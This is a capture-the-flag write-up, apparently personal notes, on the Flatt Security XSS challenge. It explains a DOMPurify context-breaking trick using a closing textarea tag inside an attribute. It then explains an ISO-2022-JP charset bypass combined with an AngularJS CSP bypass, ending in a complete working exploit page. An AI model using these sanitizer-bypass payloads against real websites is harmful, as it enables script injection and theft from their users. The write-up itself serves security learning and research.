

# Flatt Security XSS Challenge - Writeup


## XSS breaking context and DOMPurify by hamayanhamayan

This was the easiest among all the challenges, yet it teaches a nice quirk to achieve [Cross-Site Scripting (XSS)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md) when server-side sanitization is applied.
[View Highlight](https://read.readwise.io/read/01jk8q0swbkbc0vhsgx4p71d5s)

There is some server-side logic where a query parameter is sanitized via my everlasting enemy #DOMPurify. Once sanitized, the payload is reflected into the page in two different points.
```html
 <div class="card">
 <h1>Paper Airplane</h1>
 <p class="message"><%- sanitized %></b></p>
 <form method="get" action="">
 <textarea name="message"><%- sanitized %></textarea>
 <p>
 <input type="submit" value="View 👀" formaction="/" />
 </p>
 </form>
 </div>
```
[View Highlight](https://read.readwise.io/read/01jk8q16ktr13gy1rxfvjpyp2m)

How we can achieve XSS is quite simple. Essentially the sanitization that occurs server side has no context on what will be the context where our payload will be reflected.

By leveraging this assumption we can carefully create an HTML tag that when injected into the browser breaks the context but will be completely ignored by DOMPurify. How? By using [HTML attributes](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/HTML.md#HTML%20attributes%20vs%20DOM%20properties) and [Different content parsing types](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/HTML.md#Different%20content%20parsing%20types):
```html
<a id='</textarea>'/>
```
[View Highlight](https://read.readwise.io/read/01jk8q24waa4wyxpqcsej87878)


The content of the `id` attribute will be completely ignored by DOMPurify, but when injected into the page it will break the `textarea` tag:

```html
<div class="card">
	<h1>Paper Airplane</h1>
    <p class="message"><a id="</textarea>"></a></p>
    <form method="get" action="">
        <textarea name="message">&lt;a id="</textarea>"&gt;
        <p>
            <input type="submit" value="View 👀" formaction="/">
        </p>
    </form>
</div>
```


[View Highlight](https://read.readwise.io/read/01jk8q49smdfspb42wdhc51dzw)

## XSS with Charset Shenanigans by kinugawamasato - w/ strellic

```js
function render(html) {
      const sanitizedHtml = DOMPurify.sanitize(html, { ALLOWED_ATTR: [], ALLOW_ARIA_ATTR: false, ALLOW_DATA_ATTR: false });
      const blob = new Blob([sanitizedHtml], { "type": "text/html" });
      const blobURL = URL.createObjectURL(blob);
      input.value = sanitizedHtml;
      window.open(blobURL, "iframe");
      createPermalink(sanitizedHtml);
    }
```
Quite small, isn’t it? It’s difficult to think that there is an XSS in here, but indeed there is.

The main idea is explained in [Encoding Differentials: Why Charset Matters](sonarsource.com%20-%20Encoding%20Differentials%20Why%20Charset%20Matters.md). In short, it explains how the charset affects how the browser parses the HTML on the page. Moreover it highlights a specific encoding `ISO-2022-JP` which can be leveraged to achieve [XSS](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md) on pages where the `Content-Type` header has no charset specified.
[View Highlight](https://read.readwise.io/read/01jk8qzp74gtceh3nm99364382)


Apparently if a page opens a window and specify the window name via `window.open('/','whatever')` if the opened page opens a page with the same name, the page will be opened as the ==top window==.

The flow, now, is the following:
- The bot visits a page
- The page executes `window.open('https://challenge-kinugawa.quiz.flatt.training/?html=payload','iframe')`
- The Blob on the challenge page will open the sanitized payload as the top window instead that on the iframe. This will lead to a page with semi-arbitrary content without any ==charset== specified. Hence we can leverage the usage of #ISO-2022-JP in order to achieve XSS

If you have read the research, you may know that the sequence `\x1b(B` is used to switch the parsing to ASCII. Hence, something like `<style>\x1b(B<\x1b(Bimg</style>` should work. And indeed it works. This payload will be left untouched from DOMPurify since it’s considered safe. Spoiler: it’s not.
[View Highlight](https://read.readwise.io/read/01jk8qzydm974v47gsyfy3m9c5)

Now we have all we need. I should point out that there is CSP but is easily bypassable (i’ve used cspbypass.com in order to find the payload)
[View Highlight](https://read.readwise.io/read/01jk8r09ndjha7f80wy2wqe0y8)
> #tools 


```html
<html>
    <head></head>
    <body></body>
    <script>

        const URL = `https://challenge-kinugawa.quiz.flatt.training/?html=`
        const back_to_ascii = `\x1b(B`
        const back_to_jp = `\x1b$B`;
        const payload = `${back_to_jp}
        <style>
            ff${back_to_ascii}<${back_to_ascii}body ng-app ng-csp>
                ${back_to_ascii}<${back_to_ascii}script src='https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js'>${back_to_ascii}<${back_to_ascii}/script>
                    ${back_to_ascii}<${back_to_ascii}input autofocus ng-focus=$event.composedPath()|orderBy:'[].constructor.from([origin],alert)'>
        </style>`

        open(URL+encodeURIComponent(payload),'iframe')


    </script>
</html>
```
[View Highlight](https://read.readwise.io/read/01jk8r185xc4enk2jvvev6zrmp)

